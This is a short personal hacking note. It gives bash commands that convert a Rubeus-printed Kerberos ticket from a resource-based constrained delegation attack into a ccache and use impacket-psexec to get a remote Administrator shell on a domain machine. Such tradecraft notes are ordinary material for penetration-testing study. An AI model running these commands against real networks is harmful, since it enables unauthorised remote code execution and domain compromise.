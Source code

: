 # resource based constrained delegation S4U attack transfering tickets to attacker machine to psexec convert kirbi to ccache
tickets printed by rubeus are base64 encoded kirbi files.
convert with `impacket-ticketConverter`.
```bash
base64 -d smb.ticket.b64 > smb.ticket.kirbi
impacket-ticketConverter smb.ticket.kirbi smb.ticket.ccache
export KRB5CCNAME=$(pwd)/smb.ticket.ccache
impacket-psexec domain.local/Administrator@FQDNMachine.domain.local -k -no-pass
```

` zet/20221003151145/README.md `

# Related

- [20221013222124](/zet/20221013222124/README.md) concept hub for tricks and tips
- [20221014185652](/zet/20221014185652/README.md) kb file named kb/hacking/windows/AD-resource-based-constrained-delegation-attack.md
- ~/kb/hacking/windows/AD-resource-based-constrained-delegation-attack.md
- [20221003151144](/zet/20221003151144/README.md) active directory

Tags:

    #hacking #windows #ad #trick
